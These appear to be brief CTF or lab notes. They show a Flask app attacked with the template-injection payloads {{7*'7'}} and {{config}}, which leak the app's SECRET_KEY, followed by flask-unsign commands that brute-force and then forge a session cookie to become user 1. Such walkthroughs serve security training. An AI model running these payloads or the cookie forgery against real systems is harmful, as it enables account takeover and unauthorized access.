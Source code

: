 ![image](https://user-images.githubusercontent.com/49941629/166097674-23a7b22f-8e3e-45e4-b726-d430b5997f4a.png)

Cookie Flask
`.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q"`

`flask-unsign --unsign --cookie ".eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q" --wordlist ~/rockyou.txt --no-lit
eral-eval`

{{7*'7'}} = 7777777

![image](https://user-images.githubusercontent.com/49941629/166097821-b3fa5a63-abac-40f1-bfe5-00b2e5cae5ab.png)

{{config}}

`Just sent your message: <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'UPLOAD_FOLDER': '/app/app/uploads', 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>`


`flask-unsign --sign --cookie "{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '1'}" --secret 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd'`

`.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Yfp8AYihLpQ.Ymztig.yz-w4K7dpoOZxHa5NmpqoMF9WPQ`

![image](https://user-images.githubusercontent.com/49941629/166097942-b0536777-d785-4ad4-a6d1-fc605fad6685.png)

![image](https://user-images.githubusercontent.com/49941629/166097953-0f4dcb33-87fe-4fc6-bf3f-efcbc8217dd3.png)
